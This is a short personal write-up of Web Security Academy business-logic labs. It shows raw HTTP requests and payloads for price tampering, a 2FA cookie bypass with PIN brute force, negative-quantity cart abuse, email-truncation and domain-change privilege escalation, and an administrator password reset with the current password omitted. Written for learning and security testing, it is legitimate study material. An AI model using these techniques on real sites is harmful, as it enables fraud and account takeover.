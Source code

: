 # Title: Business Logic vulnerability's , *Web Academy*
- 👨‍💻By: Nathan Hailu
- 🗒Description: Labs are solved and their write up is here.
- 📅Date:  Fri 12/16/2022

================= { START } ==============================
A) Excessive trust in client-side controls
    When you order a products sites might include the amount of money inside the header as the following.
        POST /cart HTTP/1.1
        Host: 0a7600820378f9bac391207200d40016.web-security-academy.net
        Cookie: session=Ob6eiiqmMCuwttVCCRjagQEsg1US9tzR
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
        Connection: close

        productId=1&redir=PRODUCT&quantity=1&price=133700

        > Here we test the site by changing the price value to other and test if it works

B) 2FA broken logic
    Still looking into the header you can see that the site is validating the user by a cookie name called verify so changing the value there and trying to bruteforce the pin you can bypass it
        POST /login2 HTTP/1.1
        Host: 0aff00e303b87fdcc03c27c100a000fb.web-security-academy.net
        Cookie: session=liecaxPnaznrk54MItecLSRlMcNsz1g0; verify=carlos
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
        Connection: close

        mfa-code=1829

C) High-level logic vulnerability
    The website do client side validations, it check the price of a cart with client side javascript this can be manipulated by using some negative integers with the quantity of a product so i can buy $1339 price product by adding -15 quantity of $86 product when they are added the total price will be minimum and might be equal with the money we have in our stock.

D) Inconsistent handling of exceptional input
    This site displays 256 characters on the email field so, if i added 256 character with an admin email and extra {dot normal email} on the registration, then i can have the admin email displayed and the normal will be cut out. This helps to accept verification emails with my normal email, and have admin access with the admin email.
    solution: 
    email:"hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1@dontwannacry.com.exploit-0a2100e904a468d2c061673a01a40020.exploit-server.net"  

    Displayed: "hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1hacker1@dontwannacry.com"
    So i can have admin account.

E) Inconsistent security controls
    This lab, doesnt have any flaw on the registration and login part. but you have "Update email" feature. The admins have @Dontwannacry.com domain on the email so, it i registered with normal and changed my email to this domain then i can exploit the site/lab.

F) Weak isolation on dual-use endpoint
    Here The lab have a password changing feature.But it requires for Username, Current Password and New password. Here you can add any username you want, so if i don't know the current password of other users i can remove the current-password= parameter and i can change password of any users.
    1ST: csrf=hgWjhMMaGot3Veae57wqjvZiDZskB1kX&username=administrator&**current-password=peter**&new-password-1=peter&new-password-2=peter
    HACKER: csrf=hgWjhMMaGot3Veae57wqjvZiDZskB1kX&username=administrator&new-password-1=peter&new-password-2=peter
G) 
